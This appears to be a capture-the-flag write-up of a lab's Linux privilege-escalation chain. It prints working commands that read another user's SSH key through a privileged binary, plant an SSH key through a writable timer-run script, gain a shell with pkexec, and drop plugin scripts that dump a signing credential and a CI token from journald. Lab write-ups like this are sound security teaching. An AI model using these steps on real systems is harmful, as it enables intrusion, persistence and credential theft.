# Act II — Pivot

## The Pivot

I used the following script to read the brief:

```bash
#!/bin/sh
/usr/bin/python3.10 -c "
import os
os.setuid(1002)
os.system('cat /var/lib/ops/kael.txt')
" > /tmp/kael_out 2>&1
chmod 666 /tmp/kael_out
```

<p align="center"></p>

Ok nice, now based on our earlier capability scan, we can single out `hal-guard`, as it has the `cap_dac_override=ep` capability. Since `builder` can't run it, we need to run it as `ops`:

```bash
#!/bin/sh
/usr/bin/python3.10 -c "
import os
os.setuid(1002)
os.system('hal-guard /etc/halcyon/deploy/')
" > /tmp/kael_try 2>&1
chmod 666 /tmp/kael_try
```

The output of this script gave us two files located within the directory, `README` and `id_pipeline`. We can go ahead and read those using the same binary.

```bash
#!/bin/sh
/usr/bin/python3.10 -c "
import os
os.setuid(1002)
os.system('hal-guard /etc/halcyon/deploy/README; hal-guard /etc/halcyon/deploy/id_pipeline')
" > /tmp/pivot 2>&1
chmod 666 /tmp/pivot
```

<p align="center"></p>

I saved the SSH key and gave it the appropriate permissions (600). Then, I connected to the host

<p align="center"></p>

## Timers Ticking

<p align="center"></p>

I tried to enumerate the running processes and only found one thing a bit interesting

<p align="center"></p>

The user `signer` was just running `sleep infinity`. I'm guessing this might be our target user. However, I'm not sure the script that it's running. I decided to list all services and look there instead.

Command: `systemctl list-units --type=service --all | grep halcyon`

<p align="center"></p>

So, there is a signer service running in the background. Using `systemctl cat`, we get some info on the configuration:

```bash
pipeline@e218082d6a4a:/usr/bin$ systemctl cat halcyon-signer
# /etc/systemd/system/halcyon-signer.service
[Unit]
Description=Halcyon signing service

[Service]
Type=simple
User=signer
RuntimeDirectory=halcyon-signer
RuntimeDirectoryMode=0700
ExecStartPre=+/bin/sh -c 'install -m 0400 -o signer -g signer /etc/halcyon/signing.enc /run/halcyon-signer/signing'
Environment=SIGNING_CRED=/run/halcyon-signer/signing
ExecStart=/opt/halcyon/signer-daemon.sh
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

It seems to be calling another script, `/opt/halcyon/signer-daemon.sh`, which we can also read:

```bash
pipeline@e218082d6a4a:/usr/bin$ cat /opt/halcyon/signer-daemon.sh

#!/usr/bin/env bash
set -uo pipefail
echo "$(date -Is) halcyon-signer: started (pid $$)" >> /home/signer/signer.log
shopt -s nullglob
for p in /etc/halcyon/signer-plugins.d/*.sh; do
    bash "$p" || true
done
exec sleep infinity
```

On the start of the service, this script runs all the scripts (plugins) in `/etc/halcyon/signer-plugins.d/`. However, we have no write permissions to this script, or even the plugins directory. I decided to look at other scripts.

<p align="center"></p>

Three of the scripts specified that they were not the L5 target, leaving us with `deploy-step.sh`

```bash
#!/usr/bin/env bash
# Halcyon deploy pipeline step. Placeholder body -- the CI pipeline that
# templates this in for real deploys hasn't landed yet, so for now it just
# heartbeats to prove the timer tick is alive. Safe to run repeatedly.
set -euo pipefail
echo "$(date -Is) halcyon-deploy: step ok" >> /home/svc-deploy/deploy-step.log
```

<p align="center"></p>

Great! We can write to this file, as we are in the `pipeline` group. Then the script would be run as `svc-deploy`. Since we need to "become the account", we can try to plant our SSH public key into the account and then attempt to connect.

### 1. Generate our public key

```bash
ssh-keygen -t ed25519 -f /tmp/sshkey -N ""
cat /tmp/sshkey.pub
```

### 2. Edit the script and add our key

```bash
cat >> /opt/halcyon/deploy-step.sh << 'EOF'
mkdir -p /home/svc-deploy/.ssh
chmod 700 /home/svc-deploy/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICb9DQ9hAij6wEKfRtZQukgEto4NcTZBeFc/dX0vuE4W pipeline@e7e58f6526fc" >> /home/svc-deploy/.ssh/authorized_keys
chmod 600 /home/svc-deploy/.ssh/authorized_keys
EOF
```

### 3. Since this service is a `oneshot`, we need to start it again for it to run the updated version

```bash
systemctl start halcyon-deploy.service
```

<p align="center"></p>

Oh... O_O
It was mentioned that these services were run like a 'heartbeat'. Let's check if there are any timers.

<p align="center"></p>

There are timers running these scripts on their own. Let's try to connect.

### 4. Connect via SSH

```bash
ssh -i /tmp/sshkey svc-deploy@localhost
```

<p align="center"></p>

We are in! The flag can be found in /var/lib/svc_deploy

NOTE: This did not work the first time. Me, being my careless self, messed up and wrote my public key to the script initially, and I had to rewrite the script with its original contents at the top (BE WARY OF NEWLINES BEFORE THE SHEBANG)

```bash
cat > /opt/halcyon/deploy-step.sh << 'EOF'
#!/usr/bin/env bash
# Halcyon deploy pipeline step. Placeholder body -- the CI pipeline that
# templates this in for real deploys hasn't landed yet, so for now it just
# heartbeats to prove the timer tick is alive. Safe to run repeatedly.
set -euo pipefail
echo "$(date -Is) halcyon-deploy: step ok" >> /home/svc-deploy/deploy-step.log
mkdir -p /home/svc-deploy/.ssh
chmod 700 /home/svc-deploy/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICb9DQ9hAij6wEKfRtZQukgEto4NcTZBeFc/dX0vuE4W pipeline@e7e58f6526fc" >> /home/svc-deploy/.ssh/authorized_keys
chmod 600 /home/svc-deploy/.ssh/authorized_keys
EOF
```

## Run As Whom

<p align="center"></p>

So this "release engineer" is probably the `releng` user that we found earlier.

<p align="center"></p>

The only file that has SUID enabled is the pkexec file. I did some reading on `pkexec` and it is a tool that lets an authorized user run a program as another user and it works based on policies stored in `/usr/share/polkit-1/actions/`. Going here gives us a bunch of policies:

<p align="center"></p>

But we are only interested in `com.halcyon.runas-releng.policy`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE policyconfig PUBLIC
 "-//freedesktop//DTD PolicyKit Policy Configuration 1.0//EN"
 "http://www.freedesktop.org/standards/PolicyKit/1/policyconfig.dtd">
<policyconfig>
  <vendor>Halcyon deploy pipeline</vendor>
  <action id="com.halcyon.runas-releng">
    <description>Run the release-engineer shell</description>
    <message>Authentication is required to run as the release engineer</message>
    <defaults>
      <allow_any>auth_admin</allow_any>
      <allow_inactive>auth_admin</allow_inactive>
      <allow_active>auth_admin</allow_active>
    </defaults>
    <annotate key="org.freedesktop.policykit.exec.path">/usr/local/sbin/halcyon-runas-releng</annotate>
  </action>
</policyconfig>
```

EXPLANATION: If a user runs the command `pkexec /usr/local/sbin/halcyon-runas-releng`, the system will intercept the command and prompt them with: "Authentication is required to run as the release engineer".

Reading the script gives us a bit more insight:

```bash
#!/bin/sh
if [ "$(id -un)" != "releng" ]; then
  echo "halcyon-runas-releng: refusing to run as $(id -un); this helper only runs as releng" >&2
  exit 1
fi
# Invoked by pkexec (as releng, once com.halcyon.runas-releng is
# authorized -- see /etc/polkit-1/localauthority/50-local.d/49-halcyon-runas.pkla
# and the self-guard above, which is what actually pins the target to
# releng; the .pkla grant alone cannot see pkexec's --user choice). Args
# optional: with args, exec them; with none, drop into an interactive shell.
if [ "$#" -gt 0 ]; then
    exec "$@"
else
    exec /bin/bash -i
fi
```

So running the script as root or svc_deploy wouldn't work, we need to run it as `releng`. However, I discovered something earlier while trying to figure out how to use `pkexec`:

<p align="center"></p>

There is a `--user` arg, so I tried running the script with `pkexec --user releng /usr/local/sbin/halcyon-runas-releng`.

<p align="center"></p>

## Credential Vault

<p align="center"></p>

This must have something to do with the plugins directory we found earlier.

<p align="center"></p>

We can write to the directory as it is ours :). However, we still can't reload the signer server, which we need to do if we want our plugins to be executed

<p align="center"></p>

Earlier, there was a `com.halcyon.signer-reload.policy` in `/usr/share/polkit-1/actions/`, so let's check that out:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE policyconfig PUBLIC
 "-//freedesktop//DTD PolicyKit Policy Configuration 1.0//EN"
 "http://www.freedesktop.org/standards/PolicyKit/1/policyconfig.dtd">
<policyconfig>
  <vendor>Halcyon deploy pipeline</vendor>
  <action id="com.halcyon.signer-reload">
    <description>Reload the Halcyon signing service</description>
    <message>Authentication is required to reload the signing service</message>
    <defaults>
      <allow_any>auth_admin</allow_any>
      <allow_inactive>auth_admin</allow_inactive>
      <allow_active>auth_admin</allow_active>
    </defaults>
    <annotate key="org.freedesktop.policykit.exec.path">/usr/local/sbin/halcyon-signer-reload</annotate>
  </action>
</policyconfig>
```

Seems to be a similar situation as `halcyon-runas-releng` earlier. Taking a look at the script being called clears everything up

```bash
#!/bin/sh
# Invoked by pkexec (see
# /etc/polkit-1/localauthority/50-local.d/49-halcyon-signer.pkla,
# com.halcyon.signer-reload). Fixed body, ignores argv by design: reloads
# unit definitions then restarts exactly one unit. There is no unit name or
# command here for a caller to redirect -- running this as root grants no
# general escalation, since the unit itself and its (nonexistent) drop-in
# path stay root:root; restarting it just re-runs ExecStartPre= (a fresh
# root copy of the credential) and re-globs the (releng-writable) plugin dir.
systemctl daemon-reload && exec systemctl restart halcyon-signer.service
```

We should be able to directly reload the signer service by calling `/usr/local/sbin/halcyon-signer-reload` using pkexec. After confirming that, let's explore our capabilities

Explore Script:

```bash
cat << 'EOF' > /etc/halcyon/signer-plugins.d/explore.sh
#!/usr/bin/env bash
{
  id
  env
  cat "$SIGNING_CRED" 2>&1
} > /tmp/explore_capture 2>&1
chmod 666 /tmp/explore_capture
EOF
chmod +x /etc/halcyon/signer-plugins.d/explore.sh
```

I got the SIGNING_CRED env var from `systemctl cat halcyon-signer` earlier.

<p align="center"></p>

The SIGNING_CRED was the flag!

## Journald Tells

Get the next kael.txt

```bash
cat << 'EOF' > /etc/halcyon/signer-plugins.d/get_kael.sh
#!/usr/bin/env bash
{
  cat /home/signer/kael.txt
} > /tmp/kael 2>&1
chmod 666 /tmp/kael
EOF
chmod +x /etc/halcyon/signer-plugins.d/get_kael.sh
```

<p align="center"></p>

Based on the earlier capture, we can now access the journal

```bash
uid=1003(signer) gid=1004(signer) groups=1004(signer),101(systemd-journal)
SHELL=/bin/bash
PWD=/
LOGNAME=signer
SYSTEMD_EXEC_PID=23023
SIGNING_CRED=/run/halcyon-signer/signing
HOME=/home/signer
LANG=C.UTF-8
INVOCATION_ID=d56a791279cb4ce48353ac2256a9361b
RUNTIME_DIRECTORY=/run/halcyon-signer
USER=signer
SHLVL=2
JOURNAL_STREAM=8:2763679181
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

Let's take a look at the Halcyon services again

<p align="center"></p>

I decided to look into `halcyon-ci-sync.service` and found that it actually writes a `$CI_TOKEN` to journald

```bash
releng@e7e58f6526fc:/var/log/journal/$ systemctl cat halcyon-ci-sync.service
# /etc/systemd/system/halcyon-ci-sync.service
[Unit]
Description=Halcyon CI artifact sync

[Service]
Type=oneshot
EnvironmentFile=/etc/halcyon/ci-sync.env
ExecStart=/usr/local/bin/halcyon-ci-sync $CI_TOKEN

[Install]
WantedBy=multi-user.target

releng@e7e58f6526fc:/var/log/journal/$ cat /usr/local/bin/halcyon-ci-sync
#!/usr/bin/env bash
# Halcyon CI sync step -- pushes the last build's artifacts to the registry
# mirror. Takes the sync token as its first argument. The ExecStart=...$1
# argv-expansion (see the unit below) was the original leak vector via
# journald's _CMDLINE capture; that field never materializes for this unit
# under sysbox-runc, so this line is now the actual leak: it logs the token
# straight into its one status line, which lands in journald's MESSAGE
# field for anyone in the systemd-journal group to read.
set -euo pipefail
echo "halcyon-ci-sync: pushing build artifacts to the registry (sync token $1)"
exit 0
```

Let's write a plugin to read its record

```bash
cat << 'EOF' > /etc/halcyon/signer-plugins.d/get_token.sh
#!/usr/bin/env bash
{
  journalctl -u halcyon-ci-sync.service --no-pager
} > /tmp/ci_dump 2>&1
chmod 666 /tmp/ci_dump
EOF
chmod +x /etc/halcyon/signer-plugins.d/get_token.sh
```

After saving it and reloading the signing service, we get the flag in the output

<p align="center"></p>